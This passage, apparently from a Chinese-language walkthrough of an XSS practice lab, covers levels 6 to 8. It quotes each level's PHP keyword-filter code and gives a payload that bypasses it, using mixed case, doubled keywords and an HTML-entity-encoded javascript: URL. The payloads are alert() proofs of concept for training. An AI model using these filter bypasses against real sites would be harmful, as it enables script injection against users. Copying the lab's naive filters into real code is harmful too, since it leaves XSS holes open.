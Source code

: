 和上一关一样,过滤的变多了,`href`,`data`,`src` 也被过滤,但是并没有将其大小写检测

一样,使用 `">` 闭合,然后使用一个不被过滤的payload `<ScRiPt>alert(123)</ScRiPt>`

payload: `"><ScRiPt>alert(123)</ScRiPt>`

---

# level 7

```php
$str =strtolower( $_GET["keyword"]);
$str2=str_replace("script","",$str);
$str3=str_replace("on","",$str2);
$str4=str_replace("src","",$str3);
$str5=str_replace("data","",$str4);
$str6=str_replace("href","",$str5);
```

这一关,只要检测到 `on`,`href`,`src`,`script` 等关键字,会直接过滤成空

闭合,然后双写,让他正好构造出 script

payload: `"><scrscriptipt>alert("1")</scrscriptipt>`

---

# level 8

```php
$str = strtolower($_GET["keyword"]);
$str2=str_replace("script","scr_ipt",$str);
$str3=str_replace("on","o_n",$str2);
$str4=str_replace("src","sr_c",$str3);
$str5=str_replace("data","da_ta",$str4);
$str6=str_replace("href","hr_ef",$str5);
$str7=str_replace('"','&quot',$str6);
```
```php
<?php
 echo '<center><BR><a href="'.$str7.'">友情链接</a></center>';
?>
```

这一关目的将 payload 写入 `<a>` 的 herf 中

尝试构造 payload `<a href=javascript:alert(1)>`,其中 script 会被转成 scr_ipt

这里可以将 r 实体编号为 `&#114;`,然后触发 HTML 解码,将 `sc&#114;ipt` 解码为 `script`

payload: `javasc&#114;ipt:alert(1)`

---

# level 9
